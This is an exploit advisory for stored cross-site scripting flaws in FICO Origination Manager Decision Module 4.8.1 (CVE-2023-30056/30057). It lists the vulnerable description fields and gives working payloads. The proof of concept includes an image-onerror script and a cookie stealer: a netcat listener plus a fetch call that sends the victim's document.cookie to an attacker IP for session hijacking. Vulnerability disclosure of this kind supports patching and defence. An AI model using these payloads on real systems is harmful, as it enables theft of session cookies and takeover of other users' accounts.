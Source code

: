 # Exploit Title: Stored-XSS in FICO Origination Manager Decision Module 4.8.1 Leads to Session Hijacking
# Date: 2023-05-07
# Exploit Author: Matei Josephs
# Vendor Homepage: https://www.fico.com/
# Version: FICO Origination Manager Decision Module 4.8.1
# CVE : CVE-2023-30056, CVE-2023-30057

Introduction
=================
Multiple stored cross-site scripting (XSS) vulnerabilities in FICO Origination Manager Decision Module 4.8.1 allow to execute code in the context of the victim's browser using a crafted payload. Additionally, an attacker with initial access to the application, can get the JSESSIONID cookie of another user and take over their session. These two findings can be chained together.

Proof of Concept
=================
All description fields when adding Categories and Products, Product Strategies, Decision Flows, Data Object References, Data Methods, Data Method Sequences, Rulesets, Decision Tables, Decision Trees, Score Models, Scenarios, or Internal Services are vulnerable to a stored XSS using the following payload: 
  <img/src/onerror=prompt(document.cookie)>

An attacker could implement a cookie stealer as follows:
  On the attacker's machine:
    nc -lvnp <PORT>
  In one of the vulnerable description fields:
    <img/src/onerror=fetch('http://<ATTACKER-IP>:<PORT>/'+document.cookie)>

When a victim would visit the page where the payload was injected, the attacker would receive their JSESSIONID cookie. The attacker could then use the JSESSIONID cookie to log into the Origination Manager Decision Module as the victim. 

